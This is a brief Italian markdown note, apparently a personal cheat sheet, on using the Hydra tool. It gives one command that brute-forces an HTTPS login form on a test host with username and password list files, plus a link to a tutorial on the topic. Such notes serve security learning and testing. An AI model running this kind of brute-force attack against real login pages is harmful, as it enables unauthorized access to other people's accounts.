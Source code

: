 # hydra

## attacco a forza bruta di un form HTML

```
hydra test.bho https-form-post "/:user=^USER^&pass=^PASS^:Invalid" -L users.txt -P passw.txt -t 5 -w 6
```

# link-o-grafia
- https://www.html.it/articoli/attacco-brute-force-di-un-form-con-hydra/
